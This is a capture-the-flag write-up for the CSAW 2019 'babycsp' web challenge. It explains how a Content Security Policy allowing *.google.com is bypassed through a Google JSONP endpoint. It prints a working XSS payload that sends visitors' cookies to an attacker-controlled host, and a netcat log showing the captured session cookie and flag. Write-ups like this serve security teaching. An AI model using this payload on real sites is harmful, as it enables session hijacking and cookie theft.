


# babycsp

Category: `web`

Description: `I heard CSP is all the rage now. It's supposed to fix all the XSS, kill all of the confused deputies, and cure cancer? The flag is in the cookies`

Service: `http://web.chal.csaw.io:1000`

Points: `50`

**Files**
- [dist](files/dist/)

### What It Does

This is on XSS and CSP bypass. We have to craft a XSS payload that bypasses CSP and captures the cookies of visitors. Then, make the admin view the post.

The CSP in place is `default-src 'self'; script-src 'self' *.google.com; connect-src *`.



Errors can be easily checked in the browser developer console.



### How to Solve

Javascript from `google.com` is allowed. We can use a JSONP endpoint from `google.com` to bypass CSP.

A list of JSONP endpoints can be found [here](https://github.com/zigoo0/JSONBee).

One of the JSONP endpoint for `google.com`:
```
https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)
```

By redirecting the browser of users who visit the post to our server to request for a file specified by their browser cookies, we can capture their cookies.

```javascript
window.location.replace('http://your.ip/'+document.cookie)
```

URL encode the javascript payload to pass it to the JSONP endpoint.

Replace the IP and post the following payload:

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.replace('http://your.ip/'%2Bdocument.cookie)"></script>
```

Start the HTTP server, then report the post to the admin. Wait for the admin to visit the post to capture the cookies.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/web$ sudo nc -nlvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 216.165.2.60 40978 received!
GET /session=eyJ1dWlkIjp7IiBiIjoiWW05MGRYTmxjZz09In19.XXzRgQ.rbSfoiP8FirHTtqZ1kpTKvbb3GI;%20flag=flag%7Bcsp_will_solve_EVERYTHING%7D HTTP/1.1
Host: 58.96.212.212
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:5000/post?id=20120
Upgrade-Insecure-Requests: 1

^C
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/web$ 
```

URL decode the cookies to get the flag.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/web$ python -c 'import urllib; print urllib.unquote_plus("session=eyJ1dWlkIjp7IiBiIjoiWW05MGRYTmxjZz09In19.XXzRgQ.rbSfoiP8FirHTtqZ1kpTKvbb3GI;%20flag=flag%7Bcsp_will_solve_EVERYTHING%7D")'
session=eyJ1dWlkIjp7IiBiIjoiWW05MGRYTmxjZz09In19.XXzRgQ.rbSfoiP8FirHTtqZ1kpTKvbb3GI; flag=flag{csp_will_solve_EVERYTHING}
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/web$ 
```

**Flag: `flag{csp_will_solve_EVERYTHING}`**